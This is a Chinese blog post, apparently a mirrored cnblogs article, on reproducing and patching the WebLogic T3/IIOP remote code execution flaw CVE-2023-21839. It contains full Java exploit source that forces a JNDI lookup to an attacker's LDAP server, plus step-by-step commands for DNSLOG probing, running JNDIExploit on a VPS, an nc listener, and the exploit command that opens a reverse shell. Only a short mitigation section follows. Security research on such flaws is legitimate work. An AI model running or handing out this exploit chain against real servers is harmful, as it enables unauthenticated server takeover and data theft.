


# Weblogic 远程代码执行 CVE-2023-21839 复现及修复 - 那酒不要留 - 博客园

> 原文：[`www.cnblogs.com/xiaoyunxiaogang/p/17222117.html`](https://www.cnblogs.com/xiaoyunxiaogang/p/17222117.html)

| **声明：本文分享的安全工具和项目均来源于网络，仅供安全研究与学习之用，****如用于其他用途，由使用者承担全部法律及连带责任，与工具作者和本公众号无关。** |

WebLogic 存在远程代码执行漏洞（CVE-2023-21839/CNVD-2023-04389），由于 Weblogic IIOP/T3 协议存在缺陷，当 IIOP/T3 协议开启时，允许未经身份验证的攻击者通过 IIOP/T3 协议网络访问攻击存在安全风险的 WebLogic Server，漏洞利用成功 WebLogic Server 可能被攻击者接管执行任意命令导致服务器沦陷或者造成严重的敏感数据泄露。**影响范围**

*   WebLogic_Server = 12.2.1.3.0

*   WebLogic_Server = 12.2.1.4.0

*   WebLogic_Server = 14.1.1.0.0

**危害级别****：****高**

*   CNVD-2023-04389

*   CVE-2023-21839

**漏洞复现**

**安装环境-docker 部署**

WebLogic_Server = 12.2.1.3.0

```
docker search weblogicdocker pull ismaleiva90/weblogic12
#-d #使得容器后台运行
# -p #指定端口号
docker run -dit -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```

```
访问：http://IP:7001/console
```

如图:



    由于 Weblogic t3/iiop 协议支持远程绑定对象 bind 到服务端，并且可以通过 lookup 查看，当远程对象继承自 OpaqueReference 时，lookup 查看远程对象，服务端会调用远程对象 getReferent 方法。weblogic.deployment.jms.ForeignOpaqueReference 继承自 OpaqueReference 并且实现了 getReferent 方法，并且存在 retVal = context.lookup(this.remoteJNDIName)实现，故可以通过 rmi/ldap 远程协议进行远程命令执行。

**复现步骤**POC 如下：jdk1.8 打包好的 jar 公众号回复"CVE-2023-21839"

```
 import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.lang.reflect.Field;
import java.util.Hashtable;
import java.util.Random;

public class CVE_2023_21839 {

static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";

static String HOW_TO_USE="[*]java -jar 目标 ip:端口 ldap 地址\ne.g. java -jar 192.168.220.129:7001 ldap://192.168.31.58:1389/Basic/ReverseShell/192.168.220.129/1111";

```
private static InitialContext getInitialContext(String url)throws NamingException
{
    Hashtable<String,String> env = new Hashtable<String,String>();
    env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
    env.put(Context.PROVIDER_URL, url);
    return new InitialContext(env);
}
public static void main(String args[]) throws Exception {
    if(args.length <2){
        System.out.println(HOW_TO_USE);
        System.exit(0);
    }
    String t3Url = args[0];
    String ldapUrl = args[1];
    InitialContext c=getInitialContext("t3://"+t3Url);
    Hashtable<String,String> env = new Hashtable<String,String>();
    env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
    weblogic.deployment.jms.ForeignOpaqueReference f=new weblogic.deployment.jms.ForeignOpaqueReference();
    Field jndiEnvironment=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
    jndiEnvironment.setAccessible(true);
    jndiEnvironment.set(f,env);
    Field remoteJNDIName=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
    remoteJNDIName.setAccessible(true);
    remoteJNDIName.set(f,ldapUrl);
    String bindName = new Random(System.currentTimeMillis()).nextLong()+"";
    try{
        c.bind(bindName,f);
        c.lookup(bindName);
    }catch(Exception e){ }

} 
``` `}`
```

```
https://github.com/DXask88MA/Weblogic-CVE-2023-21839
```

DNSLOG 探测：

*   java -jar Weblogic-CVE-2023-21839.jar 192.168.200.5:7001 ldap://pktnfv.dnslog.cn

```
java -jar Weblogic-CVE-2023-21839.jar 127.0.0.1:7001  ldap://vxeavu.dnslog.cn
```

漏洞检测效果如下：



**getshell:**

使用 JNDIExploit-1.4-SNAPSHOT.jar 工具启动 ladp 服务
jdk1.8 打包好的 jar 公众号回复"CVE-2023-21839"

```
https://github.com/WhiteHSBG/JNDIExploit
```

vps 启用 LDAP 服务

*   java -jar JNDIExploit-1.4-SNAPSHOT.jar -i ip(VPS 的 IP 地址)


vps 启用监听反弹端口

```
nc -lvvp 8911
```


在本机上执行漏洞利用代码

```
java -jar Weblogic-CVE-2023-21839.jar 127.0.0.1:7001 ldap://vsp 的 ip 地址:1389/Basic/ReverseShell/vsp 的 ip 地址/VPS 的 nc 监听端口
```


**修复建议**

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

缓解方式禁用 T3 及 IIOP

补丁下载链接：​

```
https://support.oracle.com/rs?type=doc&id=2917213.2
```

**工具原链接**

```
https://github.com/DXask88MA/Weblogic-CVE-2023-21839https://github.com/WhiteHSBG/JNDIExploit
```

关注公众号回复“21839”可下载 jdk1.8 编译后的两个 jar 包**瓜神学习网络安全**​